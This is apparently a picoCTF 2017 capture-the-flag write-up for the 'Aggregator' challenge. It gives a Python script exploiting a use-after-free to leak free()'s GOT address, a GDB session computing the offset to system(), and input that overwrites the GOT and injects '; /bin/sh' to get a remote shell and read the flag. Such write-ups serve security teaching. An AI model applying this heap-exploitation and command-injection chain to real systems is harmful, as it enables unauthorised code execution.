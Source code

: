 # Aggregator

```
I wrote a program to help me synthesize my log files. You can edit the log files to add annotations that will print out aggregated information. Because the original program that outputs the logs was a bit faulty, I also included the ability to clear a single day of logs.
Find my aggregator running on shell2017.picoctf.com:13902. aggregator.c aggregator
HINTS
Does it look like there is a stack vulnerability?
```

We noticed that there was a use-after-free error, so we played around with inputs in GDB until we got a writable data pointer that also pointed to the location of an active table entry. Then we wrote over the pointer to the table entry's data with the pointer to the GOT address of free() in order to leak the location of free to the console. We used the following python script

```python
python
output = "3-1-1 999\n"
output += "2-1-1 420\n"
for i in range(1, 42): # Adding 41 values to 4-1-1 causes the size to increase to 80 (10 doubles to 20 and so on)
  output += "4-1-1 " + str(i) + "\n" # This is large enough to cause a chain to be allocated over the pointer
output += "~2-1-1\n" # To be honest, I just kind of guessed from here on until I got a pointer I could use in GDB
output += "~3-1-1\n"
output += "~4-1-1\n"
output += "5-1-1\n" # Now creating 1-1-1 will have a data pointer that goes to the 4-1-1 metadata
output += "1-1-1 6299376\n" # Sets 4-1-1's data pointer to the GOT
output += "1-1-1 72340172838076673\n" # Sets the day to 1 (0x0101010101010101 as day is stored as an 8 bit unsigned integer)
output += "1-1-1 18446744073709551615\n" # Sets size to something very large
output += "1-1-1 1\n" # Size should be 1 so we can isolate the pointer
output += "1-1-1 0\n" # Next chain should be NULL
output += "am 4-1\n" # Prints the minimum of the one value pointed at by 4-1 (the GOT)
print output
```

Next we had to find the offset between the actual address of free() and system() at runtime in GDB. The values at the given GOT addresses at runtime. We did this by attaching GDB to the running process after leaking the glibc address of free. It was important to do this on a system running the same version of libc as the shell server, so we just carried out this step on the shell server.

```
$ (python aggregator.py; cat) | ./aggregator
140283963758080
^Z[2] + Stopped                    (python aggregator.py; cat) | ./aggregator
$ gdb -q -p `pidof aggregator`
Excess command line arguments ignored. (21905)
22110: No such file or directory.
Attaching to process 23535

Program received signal SIGTSTP, Stopped (user).
Reading symbols from /home/rjm27trekkie/aggregator...(no debugging symbols found)...done.
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/libc-2.19.so...done.
done.
Loaded symbols for /lib/x86_64-linux-gnu/libc.so.6
Reading symbols from /lib64/ld-linux-x86-64.so.2...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/ld-2.19.so...done.
done.
Loaded symbols for /lib64/ld-linux-x86-64.so.2
0x00007f9667d9cba0 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:81
81      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) p system
$1 = {<text variable, no debug info>} 0x7f9667d02490 <__libc_system>
(gdb) q
A debugging session is active.

        Inferior 1 [process 23535] will be detached.

Quit anyway? (y or n) y
Detaching from program: /home/rjm27trekkie/aggregator, process 23535
$ python -c "print '{0:02x}'.format(0x7f9667d02490 - 140283963758080)"
-3b170
$
```

The inputs after this point will change every time. They will need to take the following format.

```
aM 4-1 THIS PRINTS THE ADDRESS OF FREE
4-1-1 ADDRESS OF SYSTEM (offset: -0x3b170)
4-1-1 ADDRESS OF SYSTEM
a+ 1-1 ; /bin/sh
```

We pipe the output of the script into the program. Then we add the offset to the address for free, writing system() to the GOT entry. Finally, a line containing "; /bin/sh" is added so that program would call system("/bin/sh") when it attempts to call free(). This gives a shell. Then we just we cat the flag. 

```
$ (python aggregator.py; cat) | nc shell2017.picoctf.com 13902
140627465098752
4-1-1 140627464856720
4-1-1 140627464856720
a+ 1-1 ; /bin/sh
sh: 1: a+: not found
ls
aggregator
flag.txt
xinetd_wrapper.sh
cat flag.txt
5eaacf941a181a45e0b17327842a72f5
```
